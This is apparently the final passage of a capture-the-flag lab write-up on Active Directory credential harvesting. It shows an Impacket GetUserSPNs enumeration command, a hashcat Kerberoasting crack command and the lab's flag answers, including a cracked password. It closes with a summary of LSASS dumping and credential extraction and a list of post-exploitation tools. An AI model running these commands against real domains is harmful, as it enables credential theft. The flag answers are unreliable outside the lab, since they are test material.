 
--- 

#### Other Attacks

* Enumerate for SPN users using the Impacket GetUserSPNs script. What is the Service Principal Name for the Domain Controller?


```
python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.30.8 THM.red/thm
```

Flag 

```
svc-thm
```

* After finding the SPN account from the previous question, perform the Kerberoasting attack to grab the TGS ticket and crack it. What is the password?

We got Ticket from the previous step so we need to crack that using hashcat or john -

```
hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

Flag :

```
Passw0rd1
```

---

#### Conclusion

In this room, we discussed the various approaches to obtaining users' credentials, including the local computer and Domain Controller, which conclude the following:

- We discussed accessing Windows memory, dumping an LSASS process, and extracting authentication hashes.
- We discussed Windows Credentials Manager and methods to extract passwords. 
- We introduced the Windows LAPS feature and enumerated it to find the correct user and target to extract passwords.
- We introduced AD attacks which led to dumping and extracting users' credentials.

The following tools may be worth trying to scan a target machine (files, memory, etc.) for hunting sensitive information. We suggest trying them out in the enumeration stage.

- [Snaffler](https://github.com/SnaffCon/Snaffler)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [Lazagne](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)


The END]